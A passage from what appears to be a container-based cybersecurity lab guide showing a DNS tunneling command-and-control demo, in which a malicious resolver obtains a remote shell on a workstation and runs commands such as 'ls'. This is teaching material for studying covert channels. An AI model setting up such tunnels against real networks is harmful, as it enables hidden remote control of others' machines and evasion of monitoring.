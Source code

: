 From here we can interactively control the two endpoints on our network. At this time, the router containers are acting are intermediate couriers that move packets across the network and do not need any extra control by us.

<table border='1'>
    <tr>
        <th><h3>Server (running <a href="/cybersecurity-containerlabs/command-control/dns_tunneling/server/malicious_resolver.py"><code>malcious_resolver.py</code></a>)</h3></th>
        <th><h3>Client (running <a href="/cybersecurity-containerlabs/command-control/dns_tunneling/client/dns_lookup.py"><code>dns_lookup.py</code></a>)</h3></th>
    </tr>
    <tr>
        <td width="50%">
            Start the malicious resolver.
            <pre>root@dns-server:/usr/src/app# python malicious_resolver.py</pre>
        </td>
        <td width="50%">
            Start DNS lookup requests.
            <pre>root@workstation-1:/usr/src/app# python dns_lookup.py</pre>
        </td>
    </tr>
    <tr>
        <td width="50%">
            Notice that we now have a shell and that the hostname of the endpoint we have a shell to is printed (ex. <code>workstation-1</code>).
            <pre>root@dns-server:/usr/src/app# python malicious_resolver.py 
workstation-1
shell> </pre>
        </td>
        <td width="50%">
        </td>
    </tr>
    <tr>
        <td width="50%">
            Now we can issue a command to run on the workstation endpoint (ex. <code>ls</code>).
            <pre>root@dns-server:/usr/src/app# python malicious_resolver.py 
workstation-1
shell> ls
Dockerfile
capture.sh
captures
dns_lookup.py
requirements.txt</pre>
        From here you can continue to issue commands until you are satisfied and want to terminate the DNS tunneling session.
        </td>
        <td width="50%">
        </td>
    </tr>
    <tr>
        <td width="50%">
            Lets try issuing the <code>exit</code> command to exit the shell. Our specific implementation does not allow for the <code>exit command</code> and instead we are told to use <code>CTRL+C</code>.
            <pre>root@dns-server:/usr/src/app# python malicious_resolver.py 
workstation-1
shell> ls
Dockerfile
capture.sh
captures
dns_lookup.py
requirements.txt
shell> exit
To exit, use CTRL+C.
shell> ^C